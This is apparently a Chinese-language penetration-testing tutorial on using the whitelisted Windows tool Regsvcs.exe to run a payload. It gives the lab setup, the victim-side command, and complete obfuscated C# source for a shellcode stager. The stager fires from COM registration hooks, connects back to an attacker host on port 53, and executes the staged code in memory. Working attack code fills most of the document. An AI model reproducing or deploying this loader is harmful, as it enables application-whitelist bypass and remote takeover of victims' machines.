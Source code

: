   
  
### Regsvcs简介：

Regsvcs为.NET服务安装工具，主要提供三类服务：  
* 加载并注册程序集。  
* 生成、注册类型库并将其安装到指定的 COM+ 1.0 应用程序中。  
* 配置以编程方式添加到类的服务。  

**说明：**Regsvcs.exe所在路径没有被系统添加PATH环境变量中，因此，Regsvcs命令无法识别。

具体参考微软官方文档：  
https://docs.microsoft.com/en-us/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool

基于白名单Regsvcs.exe配置payload：

Windows 7 默认位置：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](/img/f80a8df6945621d36a5dd72bf623281a.jpg)

### 靶机执行：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe Micropoor.dll
```
![](/img/5a929f376966814377cd69342c7f8f17.jpg)

### 附录：Micropoor.cs
**注：x86 payload**

```csharp
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace phwUqeuTRSqn

{

public class mfBxqerbXgh : ServicedComponent { 

public mfBxqerbXgh() { Console.WriteLine("Micropoor"); } 

[ComRegisterFunction]

public static void RegisterClass ( string DssjWsFMnwwXL )

{

uXsiCEXRzLNkI.BBNSohgZXGCaD();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string DssjWsFMnwwXL )

{

 uXsiCEXRzLNkI.BBNSohgZXGCaD();

}

} 

public class uXsiCEXRzLNkI

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 pAyHWx, UInt32 KXNJUcPIUymFNbJ, UInt32 MotkftcMAIJRnW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 yjmmncJHBrUu, UInt32 MYjktCDxYrlTs, UInt32 zyBAwQVBQbi);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 PorEiXBhZkA, byte[] UIkcqF, UInt32 wAXQEPCIVJQQb);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 WNvQyYv, UInt32 vePRog, UInt32 Bwxjth, IntPtr ExkSdsTdwD, UInt32 KfNaMFOJVTSxbrR, ref UInt32 QEuyYka);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pzymHg, UInt32 lReJrqjtOqvkXk);static byte[] SVMBrK(string MKwSjIxqTxxEO, int jVaXWRxcmw) {

IPEndPoint hqbNYMZQr = new IPEndPoint(IPAddress.Parse(MKwSjIxqTxxEO), jVaXWRxcmw);

Socket LbLgipot = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { LbLgipot.Connect(hqbNYMZQr); }

catch { return null;}

byte[] VKQsLPgLmVdp = new byte[4];

LbLgipot.Receive(VKQsLPgLmVdp, 4, 0);

int jbQtneZFbvzK = BitConverter.ToInt32(VKQsLPgLmVdp, 0);

byte[] cyDiPLJhiAQbw = new byte[jbQtneZFbvzK + 5];

int vyPloXEDJoylLbj = 0;

while (vyPloXEDJoylLbj < jbQtneZFbvzK)

 { vyPloXEDJoylLbj += LbLgipot.Receive(cyDiPLJhiAQbw, vyPloXEDJoylLbj + 5, (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) < 4096 ? (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) : 4096, 0);}

byte[] MkHUcy = BitConverter.GetBytes((int)LbLgipot.Handle);

Array.Copy(MkHUcy, 0, cyDiPLJhiAQbw, 1, 4); cyDiPLJhiAQbw[0] = 0xBF;

return cyDiPLJhiAQbw;}

static void ZFeAPdN(byte[] hjErkNfmkyBq) {

if (hjErkNfmkyBq != null) {

UInt32 xYfliOUgksPsv = HeapCreate(0x00040000, (UInt32)hjErkNfmkyBq.Length, 0);

UInt32 eSiulXLtqQO = HeapAlloc(xYfliOUgksPsv, 0x00000008, (UInt32)hjErkNfmkyBq.Length);

RtlMoveMemory(eSiulXLtqQO, hjErkNfmkyBq, (UInt32)hjErkNfmkyBq.Length);

UInt32 NByrFgKjVjB = 0;

IntPtr PsIqQCvc = CreateThread(0, 0, eSiulXLtqQO, IntPtr.Zero, 0, ref NByrFgKjVjB);

WaitForSingleObject(PsIqQCvc, 0xFFFFFFFF);}} 

public static void BBNSohgZXGCaD() {

byte[] cyDiPLJhiAQbw = null; cyDiPLJhiAQbw = SVMBrK("192.168.1.4", 53);

ZFeAPdN(cyDiPLJhiAQbw);

} } }
```
>   Micropoor
